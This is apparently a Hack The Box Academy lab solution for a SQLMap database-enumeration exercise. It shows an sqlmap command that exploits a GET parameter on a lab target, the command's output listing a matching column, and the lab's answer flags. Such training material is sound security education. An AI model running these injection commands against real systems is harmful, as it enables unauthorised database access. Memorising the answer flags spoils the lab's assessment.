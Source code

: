 Answer: `HTB{c0n6r475_y0u_kn0w_h0w_70_run_b451c_5qlm4p_5c4n}`

# Advanced Database Enumeration

## Question 1

### "What's the name of the column containing "style" in it's name? (Case #1)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #1" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CPTS/z. images/a50e4ea9a51d5ae16cce0c800b6e71aa_MD5.jpg]]

Thus, the `sqlmap` command will be:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case1.php?id=1' --search -C style --batch
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case1.php?id=1' --search -C style --batch

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

columns LIKE 'style' were found in the following databases:
Database: information_schema
Table: ROUTINES
[1 column]
+-----------------+------------+
| Column          | Type       |
+-----------------+------------+
| PARAMETER_STYLE | varchar(8) |
+-----------------+------------+

<SNIP>
```

Answer: `PARAMETER_STYLE`

# Advanced Database Enumeration
